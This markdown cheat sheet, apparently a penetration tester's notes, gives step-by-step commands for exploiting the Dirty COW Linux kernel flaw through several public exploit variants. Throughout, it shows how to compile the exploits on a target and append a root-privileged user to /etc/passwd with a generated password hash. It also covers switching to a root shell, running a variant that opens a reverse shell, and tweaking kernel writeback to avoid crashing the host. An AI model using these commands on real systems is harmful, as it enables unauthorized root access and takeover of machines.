 ## dirty cow - 40611.c

### Compile on target
```
gcc -pthread 40611.c -o dirtyc0w
```

### Generate hash for /etc/passwd
```
openssl passwd -1 -salt <user> <password>
```

### Append new user to /etc/passwd
```
./dirtyc0w /etc/passwd "<user>:<hash>:0:0:root:/bin/bash"
```

### Change to root shell
```
su <user>
```

## another variant - 40839.c

### Compile on target
```
gcc -pthread 40839.c -o dirty -lcrypt
```

### Append new user to /etc/passwd
```
./dirty <password>
```

### Change to root shell
```
su firefart
```

## another variant - https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c

### Compile on target - (un)comment correct payload first (x86 or x64)
```
gcc cowroot.c -o cowroot -pthread
```

### Run exploit
```
./cowroot
```

### Disable dirty writeback may prevent machine from crash
```
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```

## another variant - 40847.cpp

### Compile on target
```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

### Pop reverse shell (automatically disable dirty writeback)
```
./dcow -s
```

### References:
https://www.exploit-db.com/exploits/40611  
https://www.exploit-db.com/exploits/40839  


